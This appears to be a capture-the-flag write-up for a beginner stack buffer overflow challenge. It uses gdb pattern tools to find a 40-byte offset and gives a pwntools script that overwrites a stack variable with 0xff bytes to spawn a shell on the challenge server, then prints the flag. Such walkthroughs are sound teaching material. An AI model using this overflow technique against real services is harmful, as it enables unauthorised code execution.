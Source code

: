 # beginner-generic-pwn-number-0

<p align="center">
    <kbd><img src="images/pwn0-1.png" caption="Challenge" /></kbd><br/>
</p>

From the source code, I understand that I need to modify the value of inspirational_message_index to -1 (0xffffffff) in order to spawn a shell.

<p align="center">
    <kbd><img src="images/pwn0-2.png" caption="Challenge" /></kbd><br/>
</p>

The program compares `rbp-0x8` with 0xffffffffffffffff

<p align="center">
    <kbd><img src="images/pwn0-3.png" caption="Challenge" /></kbd><br/>
</p>

To start, perform fuzzing <br />
`$ pattern_create 48` <br />
<p align="center">
    <kbd><img src="images/pwn0-4.png" caption="Challenge" /></kbd><br/>
</p>

Set breakpoint at the instruction where the program compares `rbp-0x8` with 0xffffffffffffffff. Run the program and provide the above payload.

View registers <br />
`$ info registers` <br />
<p align="center">
    <kbd><img src="images/pwn0-5.png" caption="Challenge" /></kbd><br/>
</p>

Print the value stored on `rdp-0x8` <br />
`$ p *0x7fffffffdfc8`
<p align="center">
    <kbd><img src="images/pwn0-6.png" caption="Challenge" /></kbd><br/>
</p>

`$ pattern_offset 0x41304141` <br />
<p align="center">
    <kbd><img src="images/pwn0-7.png" caption="Challenge" /></kbd><br/>
</p>

So, I need to spray 40 random characters and then provide 0xffffffffffffffff to modify the value of inspirational_message_index variable.

I created a script to perform our exploit.

```
from pwn import *

input = "A"*40 + "\xff\xff\xff\xff\xff\xff\xff\xff"


p = remote("mc.ax", 31199) 
#p = process("./beginner-generic-pwn-number-0")
p.recvuntil("cheer me up")
p.sendline(input)
p.interactive()
```

Run the exploit <br />
`$ python3 exploit.py` <br />
<p align="center">
    <kbd><img src="images/pwn0-8.png" caption="Challenge" /></kbd><br/>
</p>

Flag: `flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}`